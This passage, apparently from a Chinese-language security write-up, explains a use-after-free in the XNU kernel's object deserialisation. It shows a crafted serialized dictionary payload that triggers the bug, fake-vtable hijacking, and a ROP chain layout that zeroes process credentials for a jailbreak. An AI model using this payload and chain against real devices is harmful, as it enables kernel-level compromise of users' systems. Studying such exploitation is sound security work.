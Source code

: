 ```cpp
case kOSSerializeObject:
    if (len >= objsIdx) break;
    o = objsArray[len]; <-- TO A FREED OBJ
    o->retain();  <-- USE; REF_COUNT++
    isRef = true;
    break;
```
C++中，对象方法通过虚表来调用父类实现，通过伪造一个假虚表可以夺取控制流。对于`retain()`函数，`OSString`是`OSBbject`的子类，`retain()`实际是在`OSBbject`实现的。虚表指针位于对象的开头；在`OSData`对象开头放置假虚表指针，会覆盖`OSString`对象的虚表指针。

攻击者构造一个序列化的字典：

```xml
<dict>
    <string>AAA</string>
    <boolean>true</boolean>

    <symbol>BBB</symbol>
    <data>
        00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    </data>

    <symbol>CCC</symbol>
    <reference>1</reference> <!-- referring to object 1, the string -->
</dict>
```
用信息泄露中基于`IOUserClient`的类似方法，来触发UAF漏洞：

1. `OSString`对象“AAA”被分配32字节，被去序列化后立即被`release()`
- 序列化一个32字节的`OSData`对象（内容全0）时，分配了刚刚释放的空间
	- `kalloc()`分配最近被释放的相同大小空间
	- `OSString`对象原来内容，包括虚表指针，被置0
- 序列化一个指向对象1，即`OSString`的引用，调用`retain()`

利用UAF漏洞越狱过程如下（堆中地址从低到高增长）：

```
+————————————————————————+
|                        | "_thread_exception_return"
+                        + 
|                        | "_bzero"
+                        + 
|                        | "_posix_cred_get"
+                        +
|                        | "_proc_ucred"
+                        +
|                        | "_current_proc"  
+————————————————————————+      <——————————————————+
~          ...           ~                         |
+————————————————————————+                         |
|      retain() ptr      |———> (1)stack pivot —+   |
+——————————0x20——————————+                     |   |
|                        |———> (3)main chain ——————+
+——————————0x10——————————+                     |
|       vtable ptr       |———> (2)pop rsp; ret |
+——————————0x00——————————+           <—————————+

```
